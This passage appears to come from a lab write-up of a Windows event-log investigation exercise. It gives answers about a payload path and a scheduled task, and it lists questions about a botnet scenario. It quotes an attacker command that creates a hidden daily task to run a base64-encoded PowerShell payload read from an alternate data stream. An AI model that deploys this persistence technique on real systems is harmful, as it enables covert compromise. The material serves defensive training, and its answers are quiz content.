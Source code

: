- **Payload Path, Scheduled Task Command**:
  **Answers** (from provided text):
  - Payload Path: `c:\users\q\AppData:blah.txt`
  - Command: `"C:\WINDOWS\system32\schtasks.exe" /Create /F /SC DAILY /ST 09:00 /TN Updater /TR "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NonI -W hidden -c \"IEX ([Text.Encoding]::UNICODE.GetString([Convert]::FromBase64String($(cmd /c ''more < c:\users\q\AppData:blah.txt'''))))\""`
  ![Scheduled Task Output](./screenshots/9.png)

- **Suspicious Process**:
  **Answer** (from Event Viewer): `lsass.exe` (accessed by `schtasks.exe`, suspicious as it may indicate credential access attempts).
  ![Suspicious Process Output](./screenshots/10.png)

### Investigation 4: Mom Look! I Built a Botnet!

**Log**: `C:\Users\THM-Analyst\Desktop\Scenarios\Investigations\Investigation-4.evtx`

**Questions**:
1. **IP of the adversary?**
2. **Port used by the adversary?**
3. **C2 framework utilized?**
